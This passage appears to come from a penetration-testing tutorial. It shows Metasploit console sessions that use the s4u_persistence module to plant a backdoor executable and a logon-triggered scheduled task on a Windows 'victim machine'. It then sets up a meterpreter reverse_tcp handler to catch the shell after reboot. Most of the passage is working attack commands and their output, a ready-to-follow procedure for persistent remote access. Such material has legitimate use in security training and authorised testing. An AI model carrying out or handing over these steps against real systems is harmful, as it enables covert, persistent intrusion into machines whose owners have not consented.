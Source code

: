 ```
msf exploit(s4u_persistence) > show options

Module options (exploit/windows/local/s4u_persistence):
Name    Current Setting Required    Description
SESSION 2               yes         The session to run this module on.
TRIGGER logon           yes         Payload trigger method (accepted: event, lock, logon, schedule, unlock)

msf exploit(s4u_persistence) > exploit

[*] Started reverse handler on 192.168.102.145:1234
[*] Successfully uploaded remote executable to %TEMP%\NaiZzavOps.exe
[*] This trigger triggers on event 4101 which validates the Windows license
[*] Successfully wrote XML file to %TEMP%\zTSKlSl.xml
[+] Persistence task adpZZclEeKZ created successfully
[+] To delete task: schtasks /delete /tn "adpZZclEeKZ" /f
[*] To delete payload: del %TEMP%\NaiZzavOps.exe
[!] Could not delete file %TEMP%\zTSKlSl.xml, delete manually
```

The next step, is to check if the backdoor really works. 

We just have to create a listener that will wait for connection. we can do it from metasploit console in a few steps.

```
msf exploit(s4u_persistence) > use explot/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > show options

Payload options (windows/meterpreter/reverse_tcp):
Name        Current Setting     Required    Description
EXITFUNC    process             yes         Exit technique (accepted: seh, thread, process, none)
LHOST       192.168.102.145     yes         The listen address
LPORT       5555                yes         The listen port

msf exploit(handler) > set lport 1234
lport => 1234
msf exploit(handler) > show options

Payload options (windows/meterpreter/reverse_tcp):
Name        Current Setting     Required    Description
EXITFUNC    process             yes         Exit technique (accepted: seh, thread, process, none)
LHOST       192.168.102.145     yes         The listen address
LPORT       1234                yes         The listen port
```

```
msf exploit(handler) > exploit
```

To test the backdoor, we have to reboot the victim machine. Of courese the previous session terminate since the machine were done, if everything works, we should give a new session after the user logs on.
